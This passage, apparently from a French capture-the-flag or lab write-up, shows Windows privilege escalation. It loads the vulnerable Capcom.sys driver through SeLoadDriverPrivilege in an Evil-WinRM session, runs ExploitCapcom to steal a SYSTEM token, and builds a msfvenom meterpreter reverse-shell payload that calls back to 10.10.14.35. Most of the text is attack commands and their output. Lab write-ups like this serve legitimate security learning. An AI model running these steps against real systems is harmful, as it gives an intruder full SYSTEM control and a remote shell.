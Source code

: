 Je charge le driver Capcom.sys sur la victime.

```bash
*Evil-WinRM* PS C:\test> .\eoploaddriver.exe System\CurrentControlSet\MyService c:\test\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\MyService
NTSTATUS: 00000000, WinError: 0
```

## Exploit

Maintenant je peux utiliser le driver chargé pour l'exploiter et exécuter du code arbitraire, à savoir un reverse shell en tant que SYSTEM.

Et je lance l'exploit. 1er essai avec un reverse shell netcat échoué.

```bash
*Evil-WinRM* PS C:\test> .\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000068
[*] Shellcode was placed at 0000029108910008
[+] Shellcode was executed
[+] Token stealing was successful
[-] CreateProcess() failed
```

Alors j'opte pour un meterpreter.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.35 LPORT=443 -f exe > shell.exe
```

Je modifie le code de ExploitCapcom.cpp pour appeler shell.exe

```bash
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\test\\shell.exe");
```

J'upload shell.exe et je lance l'exploit.

```bash
*Evil-WinRM* PS C:\test> upload shell.exe
*Evil-WinRM* PS C:\test> .\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 000002345ED10008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```

Et sur mon listener metasploit, j'obtiens mon reverse shell.


[^2]: https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp
[^1]: https://github.com/tandasat/ExploitCapcom